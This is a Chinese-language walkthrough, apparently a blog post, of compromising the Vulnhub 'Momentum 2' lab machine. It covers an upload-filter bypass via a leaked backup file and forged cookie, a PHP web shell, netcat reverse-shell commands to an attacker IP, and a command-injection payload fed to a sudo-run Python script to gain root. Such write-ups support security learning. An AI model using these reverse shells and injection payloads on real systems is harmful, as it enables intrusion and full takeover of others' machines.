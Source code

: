 ```yaml
---
layout: post
title: Momentum 2
subtitle: Momentum 2
date: 2025-07-19 15:53
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
---
```

## 1. 信息收集

扫描IP 发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/e6Tm65.png)

扫描端口，开发80、22端口

![image.png](https://img.ghostliner.top/urtsRx.png)

扫描目录

![image.png](https://img.ghostliner.top/vh5Uev.png)

查看站点，`/manual`发现文件上传

![image.png](https://img.ghostliner.top/Sk3BDv.png)

相关js代码，向`ajax.php`发送数据，返回1代表成功

![image.png](https://img.ghostliner.top/18Grb1.png)

目录扫描发现 `ajax.php.bak`文件

![image.png](https://img.ghostliner.top/0xK8l9.png)

根据代码，需要添加cookie，且最后一位追加大写字母，设置参数 `secure`值为 `val1d`，则可以上传php文件

```
admin=&G6u@B6uDXMq&Ms
```

bp测试，发现为字符 `R`

![image.png](https://img.ghostliner.top/3WGt0N.png)

![image.png](https://img.ghostliner.top/qx4Ncq.png)

成功上传 `shell.php`文件，7kbscan扫描目录发现 `/owls/`

![image.png](https://img.ghostliner.top/M3SlE8.png)

确定脚本位置： <http://192.168.163.131/owls/shell.php> ，使用蚁剑连接

## 2. 反弹shell

```shell
nc -nv 192.168.163.132 -e /bin/bash
```

![image.png](https://img.ghostliner.top/kOUeD9.png)

查看 `/etc/passwd`发现用户`athena`

![image.png](https://img.ghostliner.top/ZloKSE.png)

查看home目录，发现多个文本文件，一个脚本文件

![image.png](https://img.ghostliner.top/JvFQqX.png)

获取第一个flag

![image.png](https://img.ghostliner.top/1gYtoc.png)

## 3. 提权

获取密码：`myvulnerableapp[Asterisk]` Asterisk为星号

![image.png](https://img.ghostliner.top/uavPEh.png)

发现提示，要执行 `cookie-gen.py`脚本

![image.png](https://img.ghostliner.top/qdcFM1.png)

查看脚本内容

```python
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

最后一行命令会启动一个shell进程来解析cmd字符串，cmd字符串中包含了用户输入的内容

使用密码：`myvulnerableapp*`，登录 `athena`成功，发现可用`/usr/bin/python3 /home/team-tasks/cookie-gen.py`提权

![image.png](https://img.ghostliner.top/43yOpc.png)

```shell
sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
# 输入反弹shell代码
;nc -nv 192.168.163.132 5555 -e /bin/bash
```

反弹成功

![image.png](https://img.ghostliner.top/eOXzYY.png)

提权成功

![image.png](https://img.ghostliner.top/CXtpxk.png)
